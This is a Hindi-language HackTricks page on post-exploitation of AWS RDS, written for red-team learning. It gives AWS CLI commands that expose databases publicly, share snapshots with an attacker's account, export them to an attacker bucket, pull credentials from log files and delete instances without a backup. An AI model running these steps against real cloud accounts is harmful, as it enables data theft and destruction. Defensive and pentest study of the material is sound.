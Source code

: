 # AWS - RDS पोस्ट एक्सप्लॉइटेशन

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

## RDS

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

यदि हमलावर के पास पर्याप्त अनुमतियाँ हैं, तो वह **DB को सार्वजनिक रूप से उपलब्ध** बना सकता है, DB का स्नैपशॉट बनाकर, और फिर स्नैपशॉट से एक सार्वजनिक रूप से उपलब्ध DB बनाकर।
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

इन अनुमतियों के साथ एक हमलावर **DB का स्नैपशॉट बना सकता है** और इसे **सार्वजनिक रूप से** **उपलब्ध** कर सकता है। फिर, वह उस स्नैपशॉट से अपने खाते में एक DB बना सकता है।

यदि हमलावर के पास **`rds:CreateDBSnapshot`** नहीं है, तो भी वह **अन्य** बनाए गए स्नैपशॉट्स को **सार्वजनिक** बना सकता है।

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

`rds:DownloadDBLogFilePortion` अनुमति वाला एक हमलावर **RDS इंस्टेंस के लॉग फ़ाइलों के हिस्से डाउनलोड कर सकता है**। यदि संवेदनशील डेटा या पहुँच क्रेडेंशियल्स गलती से लॉग किए जाते हैं, तो हमलावर इस जानकारी का उपयोग अपने विशेषाधिकारों को बढ़ाने या अनधिकृत क्रियाएँ करने के लिए कर सकता है।

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**संभावित प्रभाव**: संवेदनशील जानकारी तक पहुँच या लीक किए गए क्रेडेंशियल्स का उपयोग करके अनधिकृत क्रियाएँ।

### `rds:DeleteDBInstance`

इन अनुमतियों के साथ एक हमलावर **मौजूदा RDS इंस्टेंस को DoS कर सकता है**।

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**संभावित प्रभाव**: मौजूदा RDS उदाहरणों का हटाना, और डेटा का संभावित नुकसान।

### `rds:StartExportTask`

{% hint style="info" %}
TODO: परीक्षण करें
{% endhint %}

इस अनुमति के साथ एक हमलावर **RDS उदाहरण स्नैपशॉट को S3 बकेट में निर्यात कर सकता है**। यदि हमलावर के पास गंतव्य S3 बकेट पर नियंत्रण है, तो वे निर्यात किए गए स्नैपशॉट के भीतर संवेदनशील डेटा तक पहुंच प्राप्त कर सकते हैं।

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**संभावित प्रभाव**: निर्यात किए गए स्नैपशॉट में संवेदनशील डेटा तक पहुंच।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
